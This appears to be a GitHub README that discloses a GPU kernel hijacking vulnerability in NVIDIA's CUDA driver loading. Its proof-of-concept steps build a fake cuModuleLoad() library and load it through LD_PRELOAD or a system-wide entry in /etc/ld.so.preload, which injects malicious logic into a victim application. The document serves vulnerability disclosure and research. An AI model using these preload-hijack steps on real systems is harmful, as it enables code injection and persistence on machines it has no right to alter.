 # <center><font size=5> A Kernel Hijacking Vulnerability on NVIDIA GPUs</font></center>

## <font size=5> I. Introduction</font>

We found a kernel hijacking vulnerability on NVIDIA GPUs. Through manipulating the invocation mechanism of the CUDA driver functions, attackers can craft a disguised CUDA kernel loading API (**cuModuleLoad()**) to hijack the GPU kernel. With this vulnerability, attacks can implant malicious logic into the hijacked kernel, causing malicious code execution. We wrote a paper (A Novel Kernel Hijacking and Trojan Injection Method on Graphics Processing Units) to illustrate this vulnerability.

## <font size=5> II. Exploitation</font>

We provide a Proof of Concept (POC) to demonstrate this vulnerability. In the POC folder, we provide a GPU-based victim application and an attack tool to hijack the victim's GPU kernel.

**Experimental Setup**

| Operating System |              GPU Model              | CUDA Version |
| :--------------: | :---------------------------------: | :----------: |
|  Ubuntu 2022.04  | NVIDIA GTX1050 (Pascal Arch, SM_61) |     12.2     |

**Reproduction Steps**

(1) Step 1: Run the victim application

```
cd /POC/victim_app
make
./image_segment.o
```

![GPU1](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/reference.png)

(2) Step 2: Compile the attack tool and generate a disguised CUDA kernel loading API (image_hijack.so)

```
cd /POC/hijack_tool
make
```

(3) Step 3: Manipulate the invocation mechanism of the dynamic link library (DLL), and preload the malicious API to replace the legitimate one (**cuModuleLoad()**)

​	(3.1) Manipulate the DLL preloading environment variable (LD_PRELOAD), or

```
LD_PRELOAD=./image_hijack.so
```

​	(3.2) Manipulate the DLL preloading configuration file (ld.so.preload)

```
cp image_hijack.so /usr/lib
vim /etc/ld.so.preload
/usr/lib/image_hijack.so
```

(4) Step 4: Run the victim application again

```
cd /POC/victim_app
make
./image_segment.o
```

![GPU2](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/malicious.png)

# <font size=5> Conclusion </font>

In the end, we provide an animation to present the above attack process.

![GPU3](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/animation.gif)

## Contact

Please contact zhangyang1003@std.uestc.edu.cn for any questions.

